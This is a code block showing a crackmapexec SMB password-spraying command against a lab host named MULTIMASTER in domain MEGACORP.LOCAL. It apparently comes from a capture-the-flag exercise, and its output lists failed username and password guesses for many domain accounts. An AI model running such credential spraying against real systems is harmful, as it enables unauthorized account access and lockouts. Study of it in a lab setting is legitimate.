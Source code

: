 ```null
crackmapexec smb 10.10.10.179 -u users -p passwords --continue-on-success
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\aldom:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\aldom:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\alyx:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\alyx:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\alyx:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ilee:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ilee:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ilee:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\james:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\james:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\james:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\jorden:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\kpage:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\kpage:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\kpage:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\minato:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\minato:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\minato:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\nbourne:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\nbourne:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\nbourne:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\okent:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\rmartin:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\rmartin:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\rmartin:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:finance1 STATUS_LOGON_FAILURE 
```